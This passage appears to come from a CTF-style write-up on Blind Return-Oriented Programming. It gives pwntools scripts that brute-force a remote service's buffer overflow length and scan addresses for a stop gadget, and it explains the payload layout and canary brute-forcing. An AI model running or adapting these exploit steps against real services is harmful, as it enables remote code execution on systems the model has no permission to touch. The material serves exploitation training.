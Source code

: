 ```python
def get_overflow_length():
	i = 1
	while True:
		try:
			r = remote(host, port)
			r.recvuntil('WelCome my friend,Do you know password?\n')
			r.send('a' * i)
			output = r.recv()
			r.close()
			if not 'No password' in output:
				return i - 1
			else:
				i += 1
		except EOFError:
			r.close()
			return i - 1
```

If there is a canary, we have to brute-force it byte by byte, making it `256 * 8 = 2048` tries for 64-bit systems.

### Find stop gadget
As explained earlier, to find a BROP gadget, we need to use a stop gadget.

Our payload is in this form
```
padding_bytes|canary(if there is)|address
```

Just keep trying addresses until we find something that does not crash the service.

```python
def get_stop_gadget(offset):
	addr = 0x400000
	while True:
		try:
			r = remote(host, port)
			r.recvuntil('WelCome my friend,Do you know password?\n')
			r.send('a' * offset + p64(addr))
			content = r.recv()
			r.close()
			if 'WelCome' in content:
				return addr
			addr += 1
		except EOFError:
			r.close()
			addr += 1
		except PwnlibException:
			pass
```

We can find any address as long as it does not crash the service, or stays in an infinite loop. Here, I decided to find one that prints the welcome message.
